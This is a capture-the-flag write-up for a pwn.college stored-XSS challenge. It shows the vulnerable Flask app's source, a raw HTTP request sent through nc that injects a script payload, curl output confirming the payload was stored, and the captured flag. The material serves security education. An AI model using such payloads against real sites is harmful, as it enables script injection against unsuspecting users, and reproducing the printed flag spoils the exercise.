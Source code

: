 # XSS 2 — Writeup

## 🧠 Challenge Overview

We’re given a Flask application that simulates a minimal anonymous posting service. The server receives content from the user, stores it in a temporary SQLite database, and displays it on the homepage. There's no output sanitization, making it vulnerable to stored XSS.

---

## 🔍 Source Code Analysis

### Flask Server

```python
#!/opt/pwn.college/python

import flask
import os
import sqlite3
import tempfile

app = flask.Flask(__name__)

class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()

# Create a basic table with a default post
db.execute("""CREATE TABLE posts AS SELECT "First Post!" AS content""")

@app.route("/", methods=["POST"])
def challenge_post():
    content = flask.request.form.get("content", "")
    db.execute("INSERT INTO posts VALUES (?)", [content])
    return flask.redirect(flask.request.path)

@app.route("/", methods=["GET"])
def challenge_get():
    page = "<html><body>\nWelcome to pwnpost, the anonymous posting service. Post away!\n"
    page += "<form method=post>Post:<input type=text name=content><input type=submit value=Submit></form>\n"
    for post in db.execute("SELECT content FROM posts").fetchall():
        page += "<hr>" + post["content"] + "\n"
    return page + "</body></html>"

app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

### Key Observations
- User input is directly inserted into the database.
- The content is displayed on the page without escaping, meaning any HTML or JavaScript gets rendered.
- This leads to a stored XSS vulnerability.

---

## Exploit
We inject the following payload using a manual HTTP request:
```bash
printf 'POST / HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:39\r\n\r\ncontent=<script>alert("PWNED")</script>' | nc challenge.localhost 80
```
### Server Response
```
HTTP/1.1 302 FOUND
Location: /
...
```
This tells us our payload has been stored. To verify, we fetch the page again:
```
curl http://challenge.localhost/
```

Output:
```bash
<html><body>
Welcome to pwnpost, the anonymous posting service. Post away!
<form method=post>Post:<input type=text name=content><input type=submit value=Submit></form>
<hr>First Post!
<hr><script>alert("PWNED")</script>
</body></html>
```
This confirms the XSS injection.

---

## Flag Capture
The victim browser (simulated by /challenge/victim) visits the site:
```bash
/challenge/victim
```
Output:
```bash
Visiting http://challenge.localhost:80/
Alert triggered! Your reward:
pwn.college{E40Av2Qs1qKI0QJwDkwS3i1jUBT.QX3cTN2wSM0IzMyEzW}
```

---

## Flag
``` 
pwn.college{E40Av2Qs1qKI0QJwDkwS3i1jUBT.QX3cTN2wSM0IzMyEzW}
```
---
